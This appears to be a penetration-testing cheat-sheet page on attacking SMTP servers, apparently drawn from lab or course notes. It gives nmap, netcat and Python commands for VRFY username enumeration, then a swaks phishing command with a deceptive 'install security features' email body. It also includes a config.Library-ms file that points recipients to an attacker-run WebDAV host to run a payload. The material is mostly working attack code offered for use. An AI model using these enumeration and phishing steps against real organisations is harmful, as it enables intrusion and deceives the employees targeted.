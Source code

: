 # 25 - SMTP

### Username enumeration

#### Nmap

```sh
nmap --script smtp-enum-users.nse -p 25,465,587 <IP>
```

#### VRFY

{% code overflow="wrap" %}
```sh
kali@kali:~$ nc -nv 192.168.50.8 25
(UNKNOWN) [192.168.50.8] 25 (smtp) open
220 mail ESMTP Postfix (Ubuntu)
VRFY root
252 2.0.0 root
VRFY idontexist
550 5.1.1 <idontexist>: Recipient address rejected: User unknown in local recipient table
^C
```
{% endcode %}

{% code title="smtp.py" overflow="wrap" %}
```python
#!/usr/bin/python

import socket
import sys

if len(sys.argv) != 3:
        print("Usage: vrfy.py <username> <target_ip>")
        sys.exit(0)

# Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the Server
ip = sys.argv[2]
connect = s.connect((ip,25))

# Receive the banner
banner = s.recv(1024)

print(banner)

# VRFY a user
user = (sys.argv[1]).encode()
s.send(b'VRFY ' + user + b'\r\n')
result = s.recv(1024)

print(result)

# Close the socket
s.close()
```
{% endcode %}

{% code overflow="wrap" %}
```sh
kali@kali:~/Desktop$ python3 smtp.py root 192.168.50.8
b'220 mail ESMTP Postfix (Ubuntu)\r\n'
b'252 2.0.0 root\r\n'


kali@kali:~/Desktop$ python3 smtp.py johndoe 192.168.50.8
b'220 mail ESMTP Postfix (Ubuntu)\r\n'
b'550 5.1.1 <johndoe>: Recipient address rejected: User unknown in local recipient table\r\n'
```
{% endcode %}



#### Windows

```powershell
Test-NetConnection -Port 25 192.168.50.8
```



#### Sending a phishing email:

{% code overflow="wrap" %}
```sh
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```
{% endcode %}

{% code title="body.txt" overflow="wrap" %}
```textile
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```
{% endcode %}

{% code title="config.Library-ms" overflow="wrap" %}
```visual-basic
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
{% endcode %}

